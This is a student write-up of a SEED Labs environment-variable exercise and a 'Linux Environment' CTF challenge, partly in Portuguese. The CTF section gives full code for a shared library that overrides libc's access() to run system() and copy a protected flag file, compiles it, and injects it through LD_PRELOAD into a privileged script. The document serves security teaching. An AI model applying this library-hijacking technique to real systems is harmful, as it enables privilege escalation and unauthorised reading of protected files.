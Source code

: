 # Semana 4

## SEED Labs – Environment Variable and Set-UID Program

### Task 1

We started by using the command `env` to print out the environment variables.

![image](assets/s4i1.png)

Then, we tried to create a new variable:

``` 
export HELLO ="Hello!"
```

And verified it exists by using `env` once again.

![image](assets/s4i2.png)

### Task 2

We compiled myprintenv.c twice. 

## CTF - Linux Environment

O objetivo deste desafio CTF era capturar a flag contida no diretório `flag`, para o qual não tínhamos permissão de acesso. Uma vez que o sistema estava em modo "read only", foi necessário localizar o diretório `tmp`.

```
cd ../../tmp
```
Ao ler e completar a Tarefa 7 do Lab desta semana, aprendemos que é possível sobrescrever funções da library libc. Para tal, temos primeiro de criar uma "dynamic linked library" do comando `access`.

```
#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode) {
    system("/bin/cat /flags/flag.txt > /tmp/flag");
    return 0;
    }
```

Este programa, ao qual demos o nome de `access.c`, será usado para substituir a função `access` quando o script do administrador for executado novamente.

O `access.c` executa `system()`, no qual utilizamos o comando `cat` para redirecionar o conteúdo que deveria ser escrito em `/flags/flags.txt` para o novo ficheiro `flag`, localizado no diretório `tmp`. Ao criar este ficheiro, também alteramos as suas permissões de forma a conceder permissões de escrita, leitura e execução a qualquer utilizador/grupo/outros.

```
touch flag
chmod 777 flag
```

Após criar o ficheiro `flag` e o programa `access.c`,compilamos este da seguinte maneira:

```
gcc -fPIC -g -c access.c 
gcc -shared -o libaccess.so.1.0.1 access.o -lc
```
Mesmo tendo criado uma `dynamic linked library` e connectado à `C library` usando `-lc`, também é necessário adicionar a seguinte variável de ambiente:

```
echo "LD_PRELOAD=/tmp/libaccess.so.1.0.1" > env
```
Esta variável de ambiente faz com que ao executar o script, relendo todas as livrarias, esta seja a primeira a ser lida.

É possível verificar se esta variável foi criada ao executar o comando `cat env`. Dessa forma, concluímos os passos necessários para obter a flag. Restava apenas esperar que o script fosse executado novamente para obter a flag.

Observamos que quando o script era executado, a variável de ambiente desaparecia do `env`, o que indicava que a flag já estava no ficheiro `flag` no diretório `tmp`. Assim, conseguimos obter a seguinte flag.


```
flag{b9cda820a8be213b709eeb1aa2f4725f}
```

